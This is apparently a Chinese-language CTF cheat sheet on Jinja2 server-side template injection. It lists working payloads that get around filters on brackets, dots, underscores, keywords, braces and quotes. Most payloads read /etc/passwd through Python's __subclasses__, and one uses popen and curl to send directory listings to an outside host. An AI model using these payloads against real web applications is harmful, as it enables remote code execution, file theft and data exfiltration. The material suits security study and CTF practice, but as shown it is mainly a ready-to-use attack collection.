 * `array[0]`
* `array.pop(0)`
* `array.__getitem__(2)`
#### (1)过滤`[]`和`.`

只过滤`[]`

> pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。  
> `''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()`  
> 若`.`也被过滤，使用原生JinJa2函数`|attr()`  
> 将`request.__class__`改成`request|attr("__class__")`
#### (2)过滤`_`

利用`request.args`属性  
`{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__`  
将其中的`request.args`改为`request.values`则利用post的方式进行传参
#### (3)关键字过滤

* base64编码绕过  
`__getattribute__`使用实例访问属性时,调用该方法

例如被过滤掉`__class__`关键词  
`{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}`

* 字符串拼接绕过  
`{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}`  
`{{[].__getattribute__(['__c','lass__']|join).__base__.__subclasses__()[40]}}`
- #### (4)过滤`{{`
  
  使用`{% if ... %}1{% endif %}`，例如
  ```
    {% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://http.bin.buuoj.cn/1inhq4f1 -d `ls / |  grep flag`;') %}1{% endif %}
  ```
  如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来
  ```
    {% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}1{% endif %}
  ```
- #### (5)引号内十六进制绕过
  ```
    {{"".__class__}}
    {{""["\x5f\x5fclass\x5f\x5f"]}}
  ```
  `_`是`\x5f`，`.`是`\x2E`
#### (6)" ' chr等被过滤，无法引入字符串

* 直接拼接键名

dict(buil=aa,tins=dd)|join()

* 利用`string`、`pop`、`list`、`slice`、`first`等过滤器从已有变量里面直接找

(app.__doc__|list()).pop(102)|string()

